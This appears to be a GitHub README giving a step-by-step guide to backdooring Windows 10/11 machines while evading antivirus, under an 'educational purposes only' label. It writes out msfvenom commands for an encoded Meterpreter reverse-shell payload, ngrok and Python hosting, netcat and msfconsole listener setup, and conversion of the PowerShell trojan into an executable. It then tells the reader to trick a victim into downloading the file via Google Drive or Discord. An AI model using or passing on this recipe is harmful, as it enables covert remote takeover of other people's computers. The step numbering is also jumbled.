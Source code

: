# Windows 11/10 Evade AV & Backdoor

#### **For educational purposes only!**

## Steps to Compromise:

1. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -i 2 -e cmd/powershell_base64 -f ps1
4. **Setup server in files directory:** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok, or python if local
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
6. **Base64 encode the trojan.ps1 script.** <br>
trojan.ps1 <br>
7. **Convert our encoded trojan.ps1 into .exe using PS2EXE.** <br>
encoded_trojan.ps1
1. **Setup Trojan Horse.** 
8. **Get creative. Have victim download "exe" file to their machine (i.e through ngrok server, google drive, discord, or other means.)**

# Demonstration Video
Insert video in markdown!
